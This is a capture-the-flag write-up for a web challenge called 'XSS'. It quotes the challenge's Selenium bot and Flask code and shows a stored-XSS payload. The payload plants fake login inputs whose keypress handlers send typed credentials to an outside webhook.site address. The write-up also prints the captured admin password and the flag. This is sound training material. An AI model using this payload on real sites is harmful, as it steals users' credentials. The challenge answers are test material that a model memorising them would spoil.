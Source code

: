 Title: XSS

Decription:
```
I really hate script kiddies... There was one guy recently going around talking about his new website. All he did was copy my website!!! >:(

Now all he does all day is look at the new posts people send him... He even announced that he uses a password autofill manager to make sure no one steals his creds and views his own post. We need to teach these script kiddies a lesson!

btw you can sign up for an account just by logging in with your new creds (that's how kool my site is)

Link: http://alpha.8059blank.ml:4003
Mirror: http://beta.8059blank.ml:4003

Author: Lucas
```

Given hint: Do read through the bot's code and identify which nodes the Selenium driver looks for, and find a way to extract the input to a webhook

Files given: https://github.com/Coder-Here/HACK-AC-2022-CTF/blob/main/Web/XSS/dist.zip

the bot.py code:

```
from threading import Thread
from os import getenv

from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.firefox.options import Options
from selenium.webdriver.firefox.service import Service

USERNAME = getenv('USERNAME')
PASSWORD = getenv('PASSWORD')

class Bot(Thread):
    def __init__(self, uuid):
        Thread.__init__(self)
        self.uuid = uuid

    def run(self):
        options = Options()
        options.headless = True
        driver = webdriver.Firefox(service=Service('./geckodriver'), options=options)
        driver.get(f'http://localhost:5000/render/{self.uuid}')
        try:
            username = driver.find_element(By.ID, 'username')
            assert username.tag_name == 'input'
            password = driver.find_element(By.ID, 'password')
            assert password.tag_name == 'input'
        except:
            pass
        else:
            username.send_keys(USERNAME)
            username.send_keys(Keys.ENTER)
            password.send_keys(PASSWORD)
            password.send_keys(Keys.ENTER)
        finally:
            driver.quit()

```

We can grab the admin password when the bot enters them at

```
            username.send_keys(USERNAME)
            username.send_keys(Keys.ENTER)
            password.send_keys(PASSWORD)
            password.send_keys(Keys.ENTER)
```

Using XSS by entering script into the post box, with webhook. Go to https://webhook.site/ and get your specific id.

![image](https://user-images.githubusercontent.com/63996033/197471375-52854289-bff2-4b35-aa18-f606f2b30c90.png)

Use this code and post it.

```
<input id = "username" onkeypress="if(event.keyCode == 13){const http=new XMLHttpRequest();http.open('GET', 'https://webhook.site/<YOUR ID>?hi='+document.getElementById('username').value);http.send();}" /> 
<input id = "password" onkeypress="if(event.keyCode == 13){const http=new XMLHttpRequest();http.open('GET', 'https://webhook.site/<YOUR ID>?hi2='+document.getElementById('password').value);http.send();}" /> 
```

In app.py, there is this code that will trigger the bot to enter the password.

```
@app.route('/visit/<uuid>')
def visit(uuid):
    thread = Bot(uuid)
    thread.start()
    return 'very interesting post, from that i\'ve gotten your ip and will now proceed to HACK you!!!!!!!!!!!!!!!!!!!!'
```

Therefore, we need to go to /visit/<uuid>

First we need to get our uuid by looking in the cookies at devtools -> application:

![image](https://user-images.githubusercontent.com/63996033/197473180-37aef8df-8031-4246-9b14-292f01871669.png)

In my case, UUID = e04de7be-9192-4b60-bb48-2d441b808b66

It will show us this when we go to the /visit/e04de7be-9192-4b60-bb48-2d441b808b66

![image](https://user-images.githubusercontent.com/63996033/197473289-6547a03b-c908-43a3-aabe-64322330f418.png)

This will trigger the bot to input the password which will be caught by the webhook.

![image](https://user-images.githubusercontent.com/63996033/197473484-7f73d17f-dd4e-43de-a4a8-1e490700604b.png)
![image](https://user-images.githubusercontent.com/63996033/197473518-5c9c1389-ea0d-415f-8924-d562cf63ef5a.png)

There we have it. The webhook shows the username and password. admin:eNkfeunrNgVCe9xR3Xv4HeVw5Kx2VBC7

Now we login again as admin: Delete the uuid cookie which requires you to login again

![image](https://user-images.githubusercontent.com/63996033/197473717-b4e42394-337b-4a8c-85da-6090050e255c.png)

In app.py, we can see that it will show us the flag when we go to /render/<uuid> when the uuid is that of the admin.

```
@app.route('/render/<uuid>')
def render(uuid):
    with sqlite3.connect('./db') as cnx:
        cursor = cnx.cursor()
        cursor.execute('SELECT post FROM users WHERE uuid = ?', (uuid,))
        if (post := cursor.fetchone()):
            return post[0]
        else:
            return redirect('/')

```

Let's get the uuid of admin first: a68451d1-9041-4f56-9cb8-1a849ad115b8

![image](https://user-images.githubusercontent.com/63996033/197474201-59f46818-da5a-45fc-87e0-4b48bd53b879.png)

Going to /render/<uuid> with uuid of admin,it gives us the flag:

![image](https://user-images.githubusercontent.com/63996033/197474337-501694bf-9788-4a38-960c-93532da0d908.png)

Flag: ACSI{br0ws3r_p4ssw0rd_m4nag3rs_4r3_f0r_scr1pt_k1dd135}
